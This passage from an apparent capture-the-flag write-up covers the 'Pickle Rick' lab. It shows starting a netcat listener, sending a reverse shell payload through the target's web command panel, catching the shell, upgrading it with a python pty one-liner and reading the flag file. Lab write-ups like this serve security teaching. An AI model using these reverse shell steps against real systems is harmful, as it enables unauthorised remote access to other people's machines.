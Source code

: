 <br />
Start a netcat listener that is listening on the port that was specified in the revshells payload.

{% raw %}
```bash
root@ip-10-10-34-42:~# nc -nlvp 443
Listening on 0.0.0.0 443
```
{% endraw %}

<br />
Use the payload from revshells and use it in the Command Panel and click the Execute button.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/picklerick/execute.png" title="Execute payload" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Check the listener and catch the shell.

{% raw %}
```bash
root@ip-10-10-34-42:~# nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.101.216 41078
$ 
```
{% endraw %}

<br />
Use python to upgrade the shell.

{% raw %}
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-10-101-216:/var/www/html$
```
{% endraw %}

<br />
Get the first flag.

{% raw %}
```bash
www-data@ip-10-10-101-216:/var/www/html$ ls
ls
<flagfilename>.txt  clue.txt	 index.html  portal.php
assets			     denied.php  login.php   robots.txt
www-data@ip-10-10-101-216:/var/www/html$ cat <flagfilename>.txt^[[C
cat <flagfilename>.txt
<flag>
```
{% endraw %}
